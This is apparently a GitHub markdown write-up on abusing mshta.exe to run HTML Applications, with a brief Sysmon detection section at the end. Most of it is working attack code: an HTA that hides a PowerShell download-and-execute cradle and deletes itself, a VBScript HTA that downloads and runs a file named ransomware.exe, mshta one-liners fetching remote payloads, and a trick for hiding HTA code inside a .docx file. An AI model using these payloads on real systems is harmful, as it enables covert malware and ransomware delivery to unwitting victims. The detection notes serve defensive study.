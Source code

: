 ### The magic behind ```mshta.exe```
Mshta.exe is a utility that executes **Microsoft HTML Applications (HTA) **
An **HTML Application (HTA)** is a Microsoft Windows program whose source code consists of HTML, Dynamic HTML, and one or more scripting languages supported by Internet Explorer, such as VBScript or JScript.

#### Parameters
Parameters to the ```mshta.exe``` include:
* ```-xxx``` 


#### Special cases


#### Malicious scenarios
Because it runs on windows and support VBScript and Jscript, it's very obvious that it could be used in a malicious way

**The following is the format of HTA file**

```html
<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION ID="CS"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">


<script>
//We will use Wscript.shell in order to launch PowerShell
// new ActiveXObject is JScript
a = new ActiveXObject('Wscript.Shell');
//Our command to execute
cmd = "powershell  -ep Bypass -nop -noexit -c (IEX (New-Object Net.WebClient).DownloadString('http://[IP]/projects/exec.ps1'))";
//Run the command, 0 is needed so that no PowerShell window will appear
a.Run(cmd,0);

//We use this in order to get erase the HTA file after it has executed
b = new ActiveXObject("Scripting.FileSystemObject");
//Get filename and edit it so that windows can read it properly
filename = window.location.href;
filename = decodeURI(filename);
filename = filename.slice(8);
//Get a handle on the file
c = b.GetFile(filename);
//Delete it
c.Delete();
//Close the MSHTA window
window.close();
</script>
</head>
<body>
</body>
</html>
```

the above HTA file uses ActiveX Microsoft extension to JavaScript to run cmd command which will run PowerShell and download another PowerShell script

the following tag is what defines that the following is HTA application so it could be parsed with mshta.exe as HTA file and execute the buried Jscript code in it



```html
<HTA:APPLICATION ID="CS"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">
```

mshta.exe always looking for this tag to identify the file as HTA



to run the HTA file, *run mshta.exe from cmd not PowerShell*

```powershell
mshta.exe http://webserver/payload.hta
```

```powershell
mshta.exe [Full Path to the File]
```




mshta.exe could also run VBScript code as one-liner

```vbscript
mshta.exe vbscript:Close(MsgBox("Karem"))
```

```vbscript
mshta.exe vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```

****

you also can Just VBScript
```vbscript
<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION ID="CS"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">


<script type="text/vbscript" LANGUAGE="VBScript" >
Set wshShell = CreateObject( "WScript.Shell" )
strUserName = wshShell.ExpandEnvironmentStrings( "%USERNAME%" )
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://[IP]/ransinvoke.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\"& strUserName &"\AppData\Local\Temp\ransomware.exe", 2 '//overwrite
end with
Set objShell = Wscript.CreateObject("Wscript.Shell")
objShell.run("C:\Users\"& strUserName &"\AppData\Local\Temp\ransomware.exe")

</script>
</head>
<body>
</body>
</html>
```

some times when you run the above code you get an error saying that Wscript is not defined, this is happen because of this line

```vbscript
 Set objShell = Wscript.CreateObject("Wscript.Shell")
```


 so just remove the Wscript and make it

```vbscript
Set objShell = Wscript.CreateObject("Wscript.Shell")
```
and it will run with no issue
this problem always happens to me when I run VBScript from other file, bu it works fine it the file is just VBScript and I run it through Wscrip.exe

****



**HTA file execution Tricks**

We can append the HTA file at the end of any other (not image) file

```powershell
copy /b doc.docx+file.hta newdoc.docx
mshta.exe [full path to newdoc.docx]
```

mshta.exe will not care about the extension of the supplied file as long as it's not image extension (ex: jpg, jpeg,png,..), it will just search for the tag that defines the HTA file



Notes

- if you append the data to docx file then run it using mshta.exe, it will work but once the victim opens it using word, word will identify that there is a problem but will open the file eventually after trimming the HTA code, and when user tires to close the file, word will tell hom to save the new doc which has no HTA, if the user saved the new file and removed the one that word told him that it's corrupted, then our HTA code is gone
- if you append HTA to image file and try to open it using mshta, it will open the image in a windows and will not run the JScript inside the HTA

 

### Detection

- sysmon

  - process create

    - mshta.exe process create with command line identify the file that will run the HTA
    - cmd process create with mshta.exe as parent process
    - PowerShell process that has cmd.exe as parent process 

    
    
    ![MSHTA](./images/mshta.jpg)
    
    

### Reference 
* [Good Resource about MSHTA] http://blog.sevagas.com/?Hacking-around-HTA-files
* https://github.com/karemfaisal/SMUC/blob/master/MSHTA/Mshta.md
